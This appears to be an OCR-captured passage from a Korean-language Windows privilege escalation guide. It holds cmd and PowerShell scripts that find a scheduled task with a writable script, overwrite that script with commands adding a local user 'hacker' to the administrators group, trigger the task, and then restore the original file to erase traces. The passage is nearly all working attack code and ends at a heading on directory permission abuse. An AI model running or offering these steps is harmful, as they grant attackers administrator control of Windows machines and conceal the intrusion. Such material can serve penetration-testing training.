 ```cmd
:: 1. 취약한 스케줄된 작업 확인
schtasks /query /tn "VulnerableTask" /fo LIST /v

:: 2. 실행 파일 권한 확인
icacls "C:\Scripts\vulnerable_script.bat"

:: 3. 원본 파일 백업
copy "C:\Scripts\vulnerable_script.bat" "C:\Scripts\vulnerable_script.bat.bak"

:: 4. 악성 스크립트로 교체
echo net user hacker password123 /add > "C:\Scripts\vulnerable_script.bat"
echo net localgroup administrators hacker /add >> "C:\Scripts\vulnerable_script.bat"
echo %ORIGINAL_COMMANDS% >> "C:\Scripts\vulnerable_script.bat"

:: 5. 수동으로 작업 실행 (권한이 있는 경우)
schtasks /run /tn "VulnerableTask"

:: 6. 또는 다음 스케줄 실행 대기
schtasks /query /tn "VulnerableTask" /fo LIST /v | findstr "Next Run Time"

:: 7. 원본 파일 복구 (흔적 제거)
copy "C:\Scripts\vulnerable_script.bat.bak" "C:\Scripts\vulnerable_script.bat"
```

```powershell
# PowerShell로 스크립트 교체
# 1. 취약한 작업 찾기
$task = Get-ScheduledTask | Where-Object {$_.Actions.Execute -like "*.bat" -or $_.Actions.Execute -like "*.ps1"}

# 2. 실행 파일 경로 확인
$execPath = $task.Actions.Execute

# 3. 파일 권한 확인
Get-Acl $execPath | Where-Object {$_.AccessToString -match $env:USERNAME}

# 4. 악성 스크립트 생성
$maliciousScript = @"
net user hacker password123 /add
net localgroup administrators hacker /add
"@

# 5. 원본 백업 후 교체
Copy-Item $execPath "$execPath.bak"
$maliciousScript | Out-File -FilePath $execPath -Encoding ASCII

# 6. 작업 수동 실행
Start-ScheduledTask -TaskName $task.TaskName
```

### 🔧 디렉토리 권한 악용
